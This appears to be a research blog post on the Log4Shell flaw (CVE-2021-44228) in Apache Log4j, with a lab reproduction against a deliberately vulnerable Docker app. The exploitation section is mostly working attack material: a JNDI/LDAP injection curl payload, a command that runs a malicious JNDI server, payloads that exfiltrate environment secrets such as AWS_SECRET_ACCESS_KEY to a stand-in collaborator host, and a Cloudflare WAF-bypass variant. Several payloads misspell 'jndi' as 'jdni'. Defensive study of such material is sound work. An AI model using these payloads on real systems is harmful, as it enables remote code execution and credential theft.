 ```yaml
---
layout: post
title:  "Apache Log4j RCE 0day: CVE-2021-44228"
date:   2021-12-11 16:00:00 +0700
categories: research
author: Quang Vo
description: Research analysis and develop a working exploit poc script 
---
```


Reference:
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java


## Introduction Apache Log4j and Description of the vulnerability
Apache Log4j is one of the most popular logging library, widely used in Java web applications and Apache products ( such as Apeche Struts, Apache Solr, ... ).

Because of the nature of the library is logging, the data being logged originates from user inputs. If the user input contains some special characters and logged by `Log4j`, the Java method `lookup` will be called to execute a user-defined remote class in the LDAP server.
This will eventually becomes RCE ( depends on environment configrations ) 

JDK versions greater than `6u211`, `7u201`, `8u191`, and `11.0.1` are not affected by the LDAP attack vector. In these versions `com.sun.jndi.ldap.object.trustURLCodebase` is set to `false` by default meaning JNDI cannot load remote code using LDAP.

## Affected version 

Apache Log4j 2.x <= 2.15.0-rc1

## Affected Software

There have been reports said that Steam, Apple and Twitter vulnerable to this attack, and other softwares like:
- Apache Struts
- Apache Solr
- Elasticsearch
- Ghidra

...

## Exploitation

### 1. Reproduce with vulnerable app
Link to the vulnerable app that use `log4j`: [https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)

Start the app:
```
docker run -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Example of vulnerable code:
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

@RestController
public class MainController {

    private static final Logger logger = LogManager.getLogger("HelloWorld");

    @GetMapping("/")
    public String index(@RequestHeader("X-Api-Version") String apiVersion) {
        logger.info("Received a request for API version " + apiVersion);
        return "Hello, world!";
    }

}
```

Setup malicious [JDNI server](https://github.com/welk1n/JNDI-Injection-Exploit)

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/pwned" -A "0.0.0.0"
```

Sending payload to the vulnerable web app:
```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://<ip>:1389/<payload>}'
```

Response from malicious JDNI server:

<img width="1117" alt="image" src="https://user-images.githubusercontent.com/37280106/145718737-a635ce03-5265-4b49-a3e6-3bfaf49a46e0.png">

Log from the vulnerable app:
```
2021-12-12 15:29:32.630  INFO 1 --- [nio-8080-exec-5] HelloWorld                               : Received a request for API version Reference Class Name: foo

```

### 2. Exploit steps

1. Data from user inputs get logged from the back-end that using `log4j`
2. User send malicious payload that get logged in server: `${jdni:ldap://<attacker_ip>/a` 
3. The Log4j vulnerablity triggered by this payload and server makes a request to `<attacker_ip>` server via JDNI 
4. The attacker's server response a path to a remote Java class file ( `https://attack-server/Exploit.class` ) which injected to victim's server process
5. The Injected payload got triggered, allows an attacker to gain remote code execution.

### 3. Extract environment from vulnerable server
```
${jdni:ldap://${env:USER}.collabolatorendpoint.net/a}
${jdni:ldap://${env:AWS_SECRET_ACCESS_KEY}.collabolatorendpoint.net/a}
${jdni:ldap://${env:VAULT_KEY}.collabolatorendpoint.net/a}
...
```

### 4. Bypass WAF ( Cloudflare, ... )

```
${${lower:j}dni:${lower:l}dap://${env:USER}.collabolatorendpoint.net/a}
```

## Mitigation
- Update to log4j version `2.15.0-rc2` 
- Block all untrusted outbound traffic
- Add "log4j.format.msg.nolookups=true" global configuration

